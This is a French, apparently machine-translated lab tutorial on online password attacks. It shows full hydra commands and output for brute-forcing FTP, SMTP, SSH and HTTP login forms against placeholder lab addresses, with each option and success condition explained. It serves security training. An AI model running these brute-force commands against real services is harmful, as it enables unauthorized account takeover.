 Attaque en ligne
================================

Les attaques par mot de passe en ligne impliquent de deviner les mots de passe pour les services en réseau qui utilisent un système d'authentification par nom d'utilisateur et mot de passe, y compris des services tels que HTTP, SSH, VNC, FTP, SNMP, POP3, etc. Cette section présente l'utilisation d'hydra, un outil couramment utilisé pour attaquer les  connexions  . pour divers services réseau.

Hydre

Hydra prend en charge une longue liste de services réseau à attaquer. En utilisant hydra, nous allons forcer brutalement les services réseau tels que les pages de connexion Web, FTP, SMTP et SSH dans cette section. Souvent, dans hydra, chaque service a ses propres options et il faut s'y habituer à la syntaxe à laquelle hydra s'attend. Il est important de vérifier les options d'aide pour plus d'informations et de fonctionnalités.

FTP

Dans le scénario suivant, nous allons effectuer une attaque par force brute contre un serveur FTP. En vérifiant les options d'aide d'hydra, nous savons que la syntaxe d'attaque du serveur FTP est la suivante :

FTP

```
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
```

-l ftp  nous spécifions un seul nom d'utilisateur, utilisez -L  pour une liste de mots d'utilisateur

-P Chemin  spécifiant le chemin complet de la liste de mots, vous pouvez spécifier un seul mot de passe en  utilisant -p . 

ftp://10.10.xx  le protocole et l'adresse IP ou le nom de domaine complet (FDQN) de la cible.

N'oubliez pas que parfois vous n'avez pas besoin de recourir à la force brute et que vous pouvez d'abord essayer les informations d'identification par défaut. Essayez d'attaquer le serveur FTP sur la VM attachée et répondez à la question ci-dessous .

SMTP

Semblable aux serveurs FTP, nous pouvons également forcer brutalement les serveurs SMTP en utilisant hydra. La syntaxe est similaire à l'exemple précédent. La seule différence est le protocole ciblé. N'oubliez pas que si vous souhaitez essayer d'autres outils d'attaque de mot de passe en ligne, vous devrez peut-être spécifier le numéro de port, qui est 25. Assurez-vous de lire les options d'aide de l'outil.

SMTP

```
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

SSH

Le forçage brutal SSH peut être courant si votre serveur est accessible à Internet. Hydra prend en charge de nombreux protocoles, y compris SSH. Nous pouvons utiliser la syntaxe précédente pour effectuer notre attaque ! Il est important de noter que les attaques par mot de passe reposent sur une excellente liste de mots pour augmenter vos chances de trouver un nom d'utilisateur et un mot de passe valides.

SSH

```
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

Pages de connexion HTTP

Dans ce scénario, nous forcerons brutalement  les pages de connexion HTTP . Pour ce faire, vous devez d'abord comprendre ce que vous forcez brutalement. En utilisant hydra, il est important de spécifier le type de requête HTTP, que ce soit  GET  ou  POST . Vérification des options hydra :  hydra http-get-form -U , nous pouvons voir que hydra a la syntaxe suivante pour l'  option http-get-form  :

<url> :<paramètres du formulaire> :<chaîne de condition>[:<facultatif>[:<facultatif>]

Comme nous l'avons mentionné précédemment, nous devons analyser la requête HTTP que nous devons envoyer, et cela peut être fait soit en utilisant les outils de développement de votre navigateur, soit en utilisant un proxy Web tel que Burp Suite.

hydre

```
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra)
finished at 2021-10-13 08:06:45
```

-l admin   nous spécifions un seul nom d'utilisateur, utilisez -L  pour une liste de mots d'utilisateur

-P Chemin  spécifiant le chemin complet de la liste de mots, vous pouvez spécifier un seul mot de passe en  utilisant -p . 

10.10.xx  l'adresse IP ou le nom de domaine complet (FQDN) de la cible.

http-get-form  le type de requête HTTP, qui peut être http-get-form ou http-post-form .   

Ensuite, nous spécifions l'URL, le chemin et les conditions qui sont divisés à l'aide de : 

login-get/index.php  le chemin de la page de connexion sur le serveur Web cible.

username=^USER^&password=^PASS^  les paramètres pour forcer brutalement, nous injectons ^USER^ pour forcer brutalement les noms d'utilisateur et  ^PASS^  pour les mots de passe du dictionnaire spécifié.  

La section suivante est importante pour éliminer les faux positifs en spécifiant la condition "échec" avec F= . 

Et les conditions de succès,  S= . Vous aurez plus d'informations sur ces conditions en analysant la page Web ou à l'étape de l'énumération ! Ce que vous définissez pour ces valeurs dépend de la réponse que vous recevez du serveur pour une tentative de connexion échouée et une tentative de connexion réussie. Par exemple, si vous recevez un message sur la page Web "Mot de passe invalide" après un échec de connexion, définissez  F=Mot de passe invalide .

Ou par exemple, lors de l'énumération, nous avons constaté que le serveur Web sert  logout.php . Après vous être connecté à la page de connexion avec des informations d'identification valides, nous pourrions deviner que nous aurons  logout.php  quelque part sur la page. Par conséquent, nous pourrions dire à hydra de rechercher le texte  logout.php  dans le code HTML pour chaque requête.

S=logout.php  la condition de succès pour identifier les identifiants valides

-f  pour arrêter les attaques par force brute après avoir trouvé un nom d'utilisateur et un mot de passe valides

Vous pouvez l'essayer sur la VM attachée en visitant  http://MACHINE_IP/login-get/index.php . Assurez-vous de déployer la machine virtuelle associée  si vous ne l'avez pas déjà fait pour répondre aux questions ci-dessous.

Enfin, cela vaut la peine de vérifier d'autres outils d'attaques de mots de passe en ligne pour approfondir vos connaissances, tels que :

-   Méduse
-   Ncrack
-   autres!
